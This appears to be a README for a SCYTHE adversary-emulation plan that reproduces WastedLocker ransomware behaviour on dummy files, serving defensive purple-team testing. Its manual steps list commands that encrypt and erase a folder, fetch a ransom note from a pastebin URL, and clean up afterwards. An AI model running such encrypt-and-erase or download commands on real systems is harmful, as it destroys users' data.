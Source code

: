 This threat is explained further in SCYTHE's Threat Thursday blog: https://www.scythe.io/library/threatthursday-evil-corp

## Automated Emulation with SCYTHE

1. Download and import the threat in JSON format to your SCYTHE instance
2. Go to the Threat Catalog and select "WastedLocker"
3. Click "Create Campaign from Threat"
4. Name the Campaign
5. Ensure the HTTPS paramaters are correct for your SCYTHE instance
6. Launch the Campaign

## Manual Emulation with SCYTHE
Start a campaign and execute the following steps in a shell:
```
Start (with https, loader, and controller)
loader --load run
loader --load file
run cmd /c mkdir "%USERPROFILE%\Desktop\EvilCorp"
file --create --path "%USERPROFILE%\Desktop\EvilCorp\important_files.docx" --size 5MB --count 50
STEP = IMPACT
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\EvilCorp\" --encrypt --password "3v1lC0rP" --erase --recurse --extension wasted
loader --load downloader
downloader --src "https://pastebin.com/raw/ZyVJEYB4" --dest "%USERPROFILE%\Desktop\wasted_info.txt"
run powershell notepad "%USERPROFILE%\Desktop\wasted_info.txt"
STEP = CLEAN UP
run powershell Remove-Item -Recurse -Force "%USERPROFILE%\Desktop\EvilCorp"
run powershell del "%USERPROFILE%\Desktop\wasted_info.txt"
controller --shutdown
```